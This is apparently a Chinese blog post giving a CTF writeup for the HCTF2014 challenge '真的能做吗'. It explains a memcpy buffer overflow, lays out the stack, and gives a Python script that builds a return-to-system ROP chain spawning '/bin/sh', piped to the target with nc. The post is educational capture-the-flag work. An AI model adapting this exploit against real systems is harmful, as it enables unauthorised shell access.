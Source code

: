 ```yaml
---
layout: post
title: HCTF2014 真的能做吗600 writeup
catagories: [ctf]
tags: [ctf, writeup, hctf, xctf]
---
```

> wow的这一题的binary同时也是“真的能做吗”的binary.

这一题的问题，在分析wow这一题已经发现了，`memcpy()`函数产生溢出，
但`memcpy`函数的dst和src如果超过`0x30+0x8(rbp)+0x8(retaddr)`这么长，会产生dst和src重叠的问题
查上一下，`memcpy()`在处理重叠问题的时候会产生未知的效果，我也试了一下，它只
保留最终的`0x30+0x8+0x8`这些数据，前面的数据都会丢失，那也就是说，我们的可以利用的缓
冲区也就是从`ebp-0x30`到`retaddr`之间，直接改写，就改写了retaddr。

利用ROPGadget找到`pop rdi, ret`和`pop xx, pop xx, pop xx, ret`, 因为这题的libc是静态编译到wow的，所以可以找到`system()`
的地址，IDA里也可以搜索`/bin/sh`,万事俱备。

同时，由于需要绕过前面这个大循环，所以需要wow题的flag.此flag长度22,那么我们的栈大概是这样的布局

```
//memcpy之前
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     xxx
rip+0x10    xxx
rip+0x10    xxx

//memcpy之后
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     wowflag
rip+0x10    wowflag8
rip+0x18    wowflag22+"AA"
rip+0x20    poprdi_gadget
rip+0x28    binsh_addr
rip+0x30    system_addr
rip+0x38    "B"*8
rip+0x40    pop3ret_addr
...(以下每0x40字节重复)
```

因此生成shellcode的代码为：

```python
#!/usr/bin/env python2
from struct import pack

pad = "hctf{LJ_y6cdc_qweert!}"

libcbase = 0x00007FFFF75D3000

pop3    = 0x00007ffff75f35ad
poprdi  = 0x00007ffff75f59f2
system  = 0x00007FFFF7618310
binsh   = 0x00007FFFF774CFE7 

shellcode = ""
shellcode += pad 
shellcode += "A"*(24-len(pad)) 

shellcode += pack("<Q", poprdi)
shellcode += pack("<Q", binsh)
shellcode += pack("<Q", system)
shellcode += "B"*8

shellcode += pack("<Q", pop3)

fd = open("shellcodez", "w")
fd.write(shellcode)
fd.close()
```

输入`cat shellcodez -| nc addr port`拿到shell,flag在`/home/wow/`下
